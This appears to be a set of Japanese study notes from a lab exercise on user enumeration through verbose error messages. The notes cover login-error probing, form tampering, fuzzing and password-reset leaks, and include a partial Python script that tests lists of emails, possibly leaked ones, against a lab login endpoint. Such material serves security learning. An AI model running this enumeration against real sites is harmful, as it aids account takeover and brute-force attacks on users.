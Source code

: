 詳細なエラーの誘発
エラーを引き起こすために使われる一般的な手法
- 無効なログイン試行
	- 攻撃者は、意図的に間違ったユーザー名またはパスワードを入力することで、有効なユーザー名と無効なユーザー名を区別するのに役立つエラー メッセージをトリガーする
- SQLインジェクション
	- ログイン、登録画面、あらゆる入力欄
- パストラバーサル
- フォーム操作
	- ウェブアプリケーションのフォームに含まれている **入力フィールドや隠しパラメータ** といった値を意図的に変更（改ざん）して送信することで、アプリケーションが想定外の挙動を起こすかどうかを調べるテクニック
	- 1. 隠しフィールドの値を書き換える
		- 普段はユーザーの画面上には見えない `<input type="hidden">` の値や、ブラウザ開発者ツールでしか見えないパラメータを変更して送信
	- 2. 検証エラーを意図的に引き起こす
		- 例えば「数値しか受け付けないはずのフォームに文字列を入れて送信する」
		- 「必須フィールドを削除して送信する」「隠しフィールドを除去して送信する」などを行う。
- アプリケーションのファジング
	- アプリケーションのさまざまな部分に予期しない入力を送信して、その反応を確認すると、弱点を特定するのに役立ちます。たとえば、Burp Suite Intruderなどのツールは、プロセスを自動化するために使用され、さまざまなペイロードをアプリケーションに大量に送信して、どのペイロードが有益なエラーを引き起こすかを確認します。


列挙とブルートフォースの役割
- ユーザーの列挙
	- 有効なユーザー名を検出することで準備が整い、その後の総当たり攻撃での推測作業が減る
- 詳細なエラーの悪用
	- エラーから得られる洞察により、パスワード ポリシーやアカウント ロックアウト メカニズムなどの側面が明らかになり、より効果的なブルート フォース戦略への道が開かれる。

認証フォームでの列挙
ウェブサイトのパスワードを忘れた場合の機能を使ってユーザーを列挙を行える
例
- 無効なメールアドレスを入力すると、ウェブサイトは「メールアドレスが存在しません」と応答し、メールアドレスがまだ登録されていないことを示す
- Web サイトは「無効なパスワード」というエラー メッセージで応答し、電子メールはデータベースに存在するがパスワードが間違っていることを示す

例 : 対象の Web アプリで有効なメールをチェックする Python スクリプト
- メールアドレスのリストは、過去の漏洩した情報などを利用できるかも
```python
import requests
import sys

def check_email(email):
    url = 'http://enum.thm/labs/verbose_login/functions.php'  # Location of the login function
    headers = {
        'Host': 'enum.thm',
        'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',
        'Accept': 'application/json, text/javascript, */*; q=0.01',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://enum.thm',
        'Connection': 'close',
        'Referer': 'http://enum.thm/labs/verbose_login/',
    }
    data = {
        'username': email,
        'password': 'password',  # Use a random password as we are only checking the email
        'function': 'login'
    }

    response = requests.post(url, headers=headers, data=data)
    return response.json()

def enumerate_emails(email_file):
    valid_emails = []
    invalid_error = "Email does not exist"  # Error message for invalid emails

    with open(email_file, 'r') as file:
```